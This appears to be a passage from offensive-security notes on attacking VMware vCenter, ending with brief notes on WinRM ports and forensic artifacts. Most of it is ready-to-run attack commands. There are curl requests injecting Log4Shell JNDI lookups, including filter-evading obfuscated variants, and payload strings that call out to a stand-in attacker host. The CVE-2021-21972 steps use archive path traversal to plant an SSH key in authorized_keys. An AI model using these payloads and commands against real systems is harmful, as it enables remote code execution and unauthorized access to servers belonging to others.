 ### <a name='CVE-2021-44228-VCenter-1'></a>CVE-2021-44228-VCenter
```bash
# install

# HOOK STEP 1: rogue CURL query that hook VCenter to make an LDAP query 
curl --insecure  -vv -H "X-Forwarded-For: \${jndi:ldap://1.1.1.1:1389/o=tomcat}" "https://1.2.3.4/websso/SAML2/SSO/vsphere.local?SAMLRequest="

curl --insecure  -vv -H "X-Forwarded-For: \${\${env:ENV_NAME:-j}ndi\${env:ENV_NAME:-:}\${env:ENV_NAME:-l}dap\${env:ENV_NAME:-:}//1.1.1.1:1389/}" "https://1.2.3.4/websso/SAML2/SSO/vsphere.local?SAMLRequest="

curl --insecure  -vv -H "X-Forwarded-For: \${\${::-j}\${::-n}\${::-d}\${::-i}:\${::-l}\${::-d}\${::-a}\${::-p}://1.1.1.1:1389/}" "https://1.2.3.4/websso/SAML2/SSO/vsphere.local?SAMLRequest="

curl --insecure  -vv -H "X-Forwarded-For: \${\${lower:j}ndi:\${lower:l}\${lower:d}a\${lower:p}://1.1.1:1389/}" "https://1.2.3.4/websso/SAML2/SSO/vsphere.local?SAMLRequest="

${${upper:j}ndi:${upper:l}${upper:d}a${lower:p}://attackerendpoint.com/}
${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://attackerendpoint.com/z}
${${env:BARFOO:-j}ndi${env:BARFOO:-:}${env:BARFOO:-l}dap${env:BARFOO:-:}//attackerendpoint.com/}
${${lower:j}${upper:n}${lower:d}${upper:i}:${lower:r}m${lower:i}}://attackerendpoint.com/}
${${::-j}ndi:rmi://attackerendpoint.com/}
```

### <a name='CVE-2021-21972-VCenter'></a>CVE-2021-21972-VCenter
```bash
sudo python3 CVE-2021-21972.py -t 1.2.3.3 -f /root/.ssh/id_rsa.pub -p /home/vsphere-ui/.ssh/authorized_keys -o unix
git clone https://github.com/ptoomey3/evilarc.git
python evilarc.py -d 5 -p 'home/vsphere-ui/.ssh' -o unix -f linexpl.tar home/vsphere-ui/.ssh
python evilarc.py -d 5 -p 'home/vsphere-ui/.ssh' -o unix -f linexpl.tar home/vsphere-ui/.ssh/id_rsa.pub
python evilarc.py -d 5 -p 'home/vsphere-ui/.ssh' -o unix -f linexpl.tar /home/vsphere-ui/.ssh/id_rsa.pub
python evilarc.py -d 5 -p '/home/vsphere-ui/.ssh' -o unix -f linexpl.tar /home/vsphere-ui/.ssh/id_rsa.pub
cd ../CVE-2021-21972/
sudo python3 CVE-2021-21972.py -t 1.2.3.3
python3 CVE-2021-21972.py -t 1.2.3.3
python3 CVE-2021-21972.py -t 1.2.3.4
```

## <a name='winrm'></a>winrm

* service-port   : 5985-5986
* service-process: [winrshost.exe](https://www.ired.team/offensive-security/lateral-movement/winrs-for-lateral-movement)
* artifacts      : [logs,mft,prefetch,usnjrnl](https://jpcertcc.github.io/ToolAnalysisResultSheet/details/WinRS.htm)
